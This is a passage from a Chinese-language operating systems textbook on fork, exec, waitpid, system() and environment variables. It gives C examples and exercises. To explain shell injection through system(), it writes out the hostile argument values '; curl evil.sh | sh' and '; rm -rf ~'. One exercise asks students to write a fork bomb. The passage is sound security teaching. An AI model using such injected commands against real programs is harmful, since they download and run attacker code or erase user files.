#include <stdio.h>

int main(int argc, char**argv) {
  pid_t child = fork();
  if (child == -1) return EXIT_FAILURE;
  if (child) {
    int status;
    waitpid(child , &status ,0);
    return EXIT_SUCCESS;

  } else {
    // Other versions of exec pass in arguments as arrays
    // Remember first arg is the program name
    // Last arg must be a char pointer to NULL

    execl("/bin/ls", "/bin/ls", "-alh", (char *) NULL);

    // If we get to this line, something went wrong!
    perror("exec failed!");
  }
}
```

试着解读下面这个例子

``` objectivec
#include <unistd.h>
#include <fcntl.h> // O_CREAT, O_APPEND etc. defined here

int main() {
  close(1); // close standard out
  open("log.txt", O_RDWR | O_CREAT | O_APPEND, S_IRUSR | S_IWUSR);
  puts("Captain's log");
  chdir("/usr/include");
  // execl( executable,  arguments for executable including program name and NULL at the end)

  execl("/bin/ls", /* Remaining items sent to ls*/ "/bin/ls", ".", (char *) NULL); // "ls ."
  perror("exec failed");
  return 0;
}
```

这个例子先把 "Captain's log" 写入一个文件，然后把 /usr/include 中的所有内容打印到同一个文件里。上面这段代码没有任何错误检查（我们假定 close、open、chdir 等都能如预期工作）。

1.  `open` —— 会使用可用的最小文件描述符（即 1），所以标准输出（stdout）现在被重定向到该日志文件。

2.  `chdir` —— 把当前目录改为 /usr/include。

3.  `execl` —— 用 /bin/ls 替换程序映像并调用它的 main() 方法。

4.  `perror` —— 我们不该走到这里——如果走到了，说明 `exec` 失败了。

5.  我们需要 "return 0;"，因为否则编译器会抱怨。

### POSIX exec 细节 ^posix-exec-details

POSIX 详细规定了 exec 需要涵盖的所有语义
（<a href="#ref-exec_2018">[5]</a>）。注意以下几点：

1.  文件描述符在 exec 之后仍然保留。这意味着如果一个程序打开了文件却没有关闭它，那么它在子进程中依然是打开的。这是个问题，因为通常子进程并不知道这些文件描述符的存在。尽管如此，它们会占用文件描述符表中的一个槽位，可能导致其他进程无法访问该文件。唯一的例外是文件描述符设置了 Close-On-Exec 标志（O_CLOEXEC）——我们稍后会讲如何设置标志。

2.  各种信号语义：被执行的进程会保留信号屏蔽字和待决信号集合，但不会保留信号处理函数，因为它已经是另一个程序了。

3.  环境变量会被保留，除非使用 environ 版本的 exec。

4.  已打开的文件描述符在 exec 前后保持打开，除非它们被标记为 close-on-exec（`O_CLOEXEC`），而已关闭的仍保持关闭。例外是一个 setuid 程序：某些系统会在 0、1、2 中任何一个已关闭的位置上打开 `/dev/null`，这样程序就不会意外地写入它之后才打开的文件。

5.  被执行的进程以相同的 PID 运行，并且与之前的进程有相同的父进程和进程组。

6.  被执行的进程以相同的用户和用户组、在相同的工作目录下运行。

### 快捷方式 ^shortcuts

`system` 是对上面代码的预打包
（<a href="#ref-jones2010wg14">[7]</a>）。下面是如何使用 system 的片段。

``` objectivec
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char**argv) {
  system("ls"); // execl("/bin/sh", "/bin/sh", "-c", "\\"ls\\"")
  return 0;
}
```

`system` 调用会 fork、执行参数传入的命令，而原来的父进程会等待它执行完毕。这也意味着 `system` 是一个阻塞调用。在 `system` 启动的进程退出之前，父进程无法继续。此外，`system` 实际上会创建一个 shell，然后把字符串交给它，这比直接使用 `exec` 有额外开销。标准 shell 会用 `PATH` 环境变量来查找与该命令匹配的文件名。对于许多简单的"运行这条命令"的问题，使用 system 通常已经够用，但面对更复杂或更微妙的问题它很快就会显得力不从心；而且它把 fork-exec-wait 模式的机制隐藏起来了，所以我们鼓励你学习并使用 `fork`
`exec` 和 `waitpid`。它通常还会带来巨大的安全风险。该字符串由 shell 解释，因此一次 `system` 调用就能运行多条命令：

``` objectivec
#include <stdlib.h>
int main() {
    system("ls . ; echo I can run a second command ...");
}
```

这会先打印当前目录的内容，然后打印那条消息。一旦允许别人访问 shell 版本的环境，程序就可能遇到各种各样的问题：

``` objectivec
int main(int argc, char**argv) {
  char *to_exec;
  asprintf(&to_exec, "ls %s", argv[1]);
  system(to_exec);
}
```

由于 `system` 把整个字符串交给 shell，shell 会解释 `argv[1]` 中的任何特殊字符。传入类似 `argv[1] = "; curl evil.sh | sh"` 的东西会让程序运行
`ls`，然后下载并执行攻击者的脚本。同理，`argv[1] = "; rm -rf ~"` 会删除用户的主目录。这被称为
<a href="https://en.wikipedia.org/wiki/Code_injection#Shell_injection">https://en.wikipedia.org/wiki/Code_injection#Shell_injection</a>。字符 `;`、`|`、`&&`、`$(...)` 以及反引号都能让输入开启新的命令，甚至一个含有空格的文件名也会被拆成两个参数。在这个例子中，用户本来就可以自己输入这些命令，所以我们并没有得到什么好处。但如果程序以比输入提供者更高的权限运行——比如一个 setuid 程序，或者一个根据 Web 请求构造命令的服务器——命令注入就变成了
<a href="https://en.wikipedia.org/wiki/Privilege_escalation">https://en.wikipedia.org/wiki/Privilege_escalation</a>。直接调用 `exec`，例如
`execlp("ls", "ls", argv[1], (char *) NULL)`，就能避免这个问题，因为始终没有任何 shell 去解释这个参数：它被作为单个词传给 `ls`。

## fork-exec-wait 模式 ^the-fork-exec-wait-pattern

一个常见的编程模式是依次调用 `fork`、`exec` 和
`wait`。原进程调用 fork，从而创建一个子进程。子进程随后用 exec 启动一个新程序的执行。与此同时，父进程用 `wait`（或 `waitpid`）等待子进程结束。

<figure data-latex-placement="H">
<p></p>
<figcaption>fork、exec、wait 示意图</figcaption>
</figure>

``` objectivec
#include <unistd.h>

int main() {
  pid_t pid = fork();
  if (pid < 0) { // fork failure
    exit(1);
  } else if (pid > 0) {
    int status;
    waitpid(pid, &status, 0);
  } else {
    execl("/bin/ls", "/bin/ls", NULL);
    exit(1); // For safety.
  }
}
```

为什么不直接执行 ls 呢？原因是现在我们有了一个监视程序——我们的父进程，它可以做别的事情。它可以继续去执行另一个函数，也可以修改系统状态，或者读取函数调用的输出。

### 环境变量 ^environment-variables

环境变量是系统为所有进程保存、供其使用的变量。你的系统现在就已经设置了这些变量！在 Bash 中，其中一些已经定义好了。

``` bash
$ echo $HOME
/home/user
$ echo $PATH
/usr/local/sbin:/usr/bin:...
```

程序会怎样在 C 中修改它们？它们可以分别调用 `getenv` 和 `setenv` 函数。

``` objectivec
char* home = getenv("HOME"); // Will return /home/user
setenv("HOME", "/home/user", 1 /*set overwrite to true*/ );
```

环境变量之所以重要，是因为它们在进程之间被继承，可以用来指定一套标准行为
（<a href="#ref-env_std_2018">[3]</a>），尽管你不必记住这些选项。另一个与安全有关的顾虑是，argv 对其他用户是可见的，比如在 `ps` 的输出中，而环境变量不会在那里显示。不过环境变量并不是秘密：在 Linux 上，以同一用户（或以 root）身份运行的进程可以从 `/proc/<pid>/environ` 中读取它们。

## 延伸阅读 ^further-reading

把上面的 man 手册和 POSIX 条目读一读！下面是一些引导性的问题。请注意，我们并不指望你背下 man 手册。

- fork 可能失败的一个原因是什么？

- fork 会把所有页面都复制给子进程吗？

- 文件描述符会在父子进程之间被克隆吗？

- 文件描述**对象**会在父子进程之间被克隆吗？

- 以 `e` 结尾的 exec 调用之间有什么区别？

- exec 调用中 l 和 v 有什么区别？`p` 呢？

- exec 在什么情况下会出错？会发生什么？

- wait 是否只在子进程退出时才通知？

- 给 wait 传入一个负值是错误的吗？

- 怎样从状态中提取信息？

- wait 可能会因为什么原因失败？

- 当父进程不等待自己的子进程时会发生什么？

<!-- -->

- <a href="http://man7.org/linux/man-pages/man2/fork.2.html">http://man7.org/linux/man-pages/man2/fork.2.html</a>

- <a href="http://man7.org/linux/man-pages/man3/exec.3.html">http://man7.org/linux/man-pages/man3/exec.3.html</a>

- <a href="http://man7.org/linux/man-pages/man2/wait.2.html">http://man7.org/linux/man-pages/man2/wait.2.html</a>

### 主题 ^topics

- 正确使用 fork、exec 和 waitpid

- 在带路径的情况下使用 exec

- 理解 fork、exec 和 waitpid 各自做什么。例如如何使用它们的返回值。

- SIGKILL 与 SIGSTOP 与 SIGINT 的区别。

- 在终端按下 CTRL-C 时会发送什么信号？

- 在 shell 中使用 kill，或使用 POSIX 的 kill 调用。

- 进程内存隔离。

- 进程内存布局（堆、栈等在哪里；非法内存地址）。

- 什么是 fork 炸弹、僵尸和孤儿？如何创建/移除它们。

- getpid 与 getppid

- 如何使用 WAIT 的退出状态宏 WIFEXITED 等。

## 问题/练习 ^questionsexercises

- 带 p 和不带 p 的 `exec` 函数有什么区别？当程序调用 `execvp("ls", ...)` 时，是谁在 `PATH` 中查找 `ls`——操作系统还是 C 库？

- 程序如何把命令行参数传给 `execl*`？`execv*` 呢？按照约定，第一个命令行参数应该是什么？

- 程序如何知道 `exec` 或 `fork` 是否失败了？

- 传给 wait 的 `int *status` 指针是什么？wait 在什么时候会失败？

- `SIGKILL`、`SIGSTOP`、`SIGCONT`、`SIGINT` 之间有哪些差异？它们的默认行为是什么？其中哪些是程序可以为其设置信号处理函数的？

- 当你按下 `CTRL-C` 时会发送什么信号？

- 我的终端绑定在 PID = 1337 上并且已经无响应。请写出终端命令和 C 代码，向它发送 `SIGQUIT`。

- 一个进程能通过正常手段修改另一个进程的内存吗？为什么？

- 堆、栈、数据段和代码段分别在哪里？哪些段是程序可以写入的？什么是非法内存地址？

- 用 C 写一个 fork 炸弹（请不要真的运行它）。

- 什么是孤儿？它如何变成僵尸？父进程应该做什么来避免这种情况？

- 当你的父母告诉你某件事不能做时，你是不是很讨厌？写一个程序向父进程发送 `SIGSTOP`。

- 写一个函数，它 fork、exec、wait 一个可执行文件，并利用 wait 宏告诉我该进程是正常退出还是被信号终止。如果正常退出，就打印出来并带上返回值。如果不是，就打印导致该进程终止的信号编号。

<div id="refs" class="references csl-bib-body hanging-indent">

<div id="ref-Bovet:2005:ULK:1077084" class="csl-entry">

Bovet, Daniel, and Marco Cesati. 2005. *Understanding the Linux Kernel*.
Oreilly & Associates Inc.

</div>

<div id="ref-process_def" class="csl-entry">

“Definitions.” 2018. In *The Open Group Base Specifications Issue 7,
2018 Edition*. The Open Group/IEEE.
<a href="http://pubs.opengroup.org/onlinepubs/9699919799/basedefs/V1_chap03.html#tag_03_210">http://pubs.opengroup.org/onlinepubs/9699919799/basedefs/V1_chap03.html#tag_03_210</a>.

</div>

<div id="ref-env_std_2018" class="csl-entry">

“Environment Variables.” 2018. In *Environment Variables*. The Open
Group/IEEE.
<a href="https://pubs.opengroup.org/onlinepubs/9699919799/basedefs/V1_chap08.html">https://pubs.opengroup.org/onlinepubs/9699919799/basedefs/V1_chap08.html</a>.

</div>

<div id="ref-evans_2018" class="csl-entry">

Evans, Julia. 2018. “File Descriptors.” In *Julia’s Drawings*. Julia
Evans.
<a href="https://drawings.jvns.ca/file-descriptors/">https://drawings.jvns.ca/file-descriptors/</a>.

</div>

<div id="ref-exec_2018" class="csl-entry">

“Exec.” 2018. In *Exec*. The Open Group/IEEE.
<a href="https://pubs.opengroup.org/onlinepubs/9699919799/functions/exec.html">https://pubs.opengroup.org/onlinepubs/9699919799/functions/exec.html</a>.

</div>

<div id="ref-fork_2018" class="csl-entry">

“Fork.” 2018. In *Fork*. The Open Group/IEEE.
<a href="https://pubs.opengroup.org/onlinepubs/9699919799/functions/fork.html">https://pubs.opengroup.org/onlinepubs/9699919799/functions/fork.html</a>.

</div>

<div id="ref-jones2010wg14" class="csl-entry">

Jones, Larry. 2010. *WG14 N1539 Committee Draft ISO/IEC 9899: 201x*.
International Standards Organization.

</div>

<div id="ref-mallocinternals" class="csl-entry">

“Overview of Malloc.” 2018. In *MallocInternals - Glibc Wiki*. Free
Software Foundation.
<a href="https://sourceware.org/glibc/wiki/MallocInternals">https://sourceware.org/glibc/wiki/MallocInternals</a>.

</div>

<div id="ref-sys/wait.h" class="csl-entry">

“Source to Sys/Wait.h.” n.d. In *Sys/Wait.h Source*.
Superglobalmegacorp.
<a href="http://unix.superglobalmegacorp.com/Net2/newsrc/sys/wait.h.html">http://unix.superglobalmegacorp.com/Net2/newsrc/sys/wait.h.html</a>.

</div>

<div id="ref-van1994expert" class="csl-entry">

Van der Linden, Peter. 1994. *Expert c Programming: Deep c Secrets*.
Prentice Hall Professional.

</div>

</div>
